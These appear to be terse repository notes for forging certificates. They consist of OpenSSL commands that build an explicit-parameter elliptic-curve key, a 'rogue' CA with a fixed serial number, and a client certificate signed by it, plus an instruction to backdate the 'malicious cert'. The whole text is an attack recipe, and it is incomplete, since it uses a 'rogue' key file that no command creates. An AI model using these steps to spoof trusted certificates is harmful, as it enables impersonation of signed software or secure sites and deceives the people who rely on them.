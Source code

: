 # notes
mah...


openssl ecparam -name secp384r1 -genkey -noout -out p384-key.pem -param_enc explicit
openssl req -key p384-key-rogue.pem -new -out ca-rogue.pem -x509 -set_serial 0x5c8b99c55a94c5d27156decd8980cc26
openssl ecparam -name prime256v1 -genkey -noout -out prime256v1-privkey.pem
openssl req -key prime256v1-privkey.pem -config openssl.cnf -new -out prime256v1.csr
openssl x509 -req -in prime256v1.csr -CA ca-rogue.pem -CAkey p384-key-rogue.pem -CAcreateserial -out client-cert.pem -days 500 -extensions v3_req -extfile openssl.cnf
Set the "Not Before" date earlier than 2018-05-01 in the malicious cert.
